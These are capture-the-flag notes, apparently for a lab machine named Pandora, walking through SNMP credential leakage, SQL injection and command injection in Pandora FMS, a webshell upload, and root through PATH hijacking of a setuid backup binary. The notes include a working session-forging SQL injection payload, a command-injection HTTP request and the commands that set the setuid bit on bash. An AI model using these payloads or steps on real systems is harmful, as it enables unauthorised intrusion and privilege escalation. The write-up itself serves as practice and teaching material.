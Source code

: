 # Pandora

---

## Enumeration

- nmap shows port 161 UDP open for snmp
- `snmpwalk -v 1 -c public $IP`
- Got creds: `Daniel:HotelBabylon23`
- User flag is under user Matt

---

## Foothold

### SNMP

- Forwarded port 80 through SSH
- Pandora FMS Login form? sqli?
- Found metasploit module RCE
- used sqlmap to dump database

```
tpassword_history
tsessions_php
```

- Passwords in `tpassword_history` cannot be cracked.
- Stole valid session ID as Matt: `g4e01qdgk36mfdh90hvcc54umq`
- RCE vuln in POST Req to `/ajax.php`
- Got revshell as matt
- Could log in as admin using SQLi:

```
GET /pandora_console/include/chart_generator.php?session_id=1' union all select 1,2,'id_usuario|s:5:"admin";'-- -
```

```
POST /pandora_console/ajax.php HTTP/1.1
Host: localhost
Content-Length: 88
sec-ch-ua: "Chromium";v="105", "Not)A;Brand";v="8"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
sec-ch-ua-platform: "Linux"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/pandora_console/index.php?sec=eventos&sec2=operation/events/events
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=ddhf6p3piuq2dut7djt2vmedom
Connection: close

page=include%2Fajax%2Fevents&target=whoami&response_id=1&perform_event_response=10000000
```

- Logged in as admin
- Uploaded webshell in file manager: uploaded in /images
- Got reverse shell and user flag

---

## PrivEsc

- First, generated OpenSSH key and logged in using SSH
- in `pandora_backup` binary, tar is being called using absolute path and setuid is used: path hijacking

```bash
export PATH=$(pwd):$PATH
touch tar
nano tar

matt@pandora:~$ cat tar
#!/bin/bash
id

matt@pandora:~$ pandora_backup 

PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
uid=0(root) gid=1000(matt) groups=1000(matt)
Backup successful!
Terminating program!
```

- For priv esc:

```bash
matt@pandora:~$ cat tar
#!/bin/bash

chmod +s /bin/bash

matt@pandora:~$ pandora_backup 
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
Backup successful!
Terminating program!

matt@pandora:~$ bash -p
bash-5.0# whoami
root
bash-5.0# 

```

---
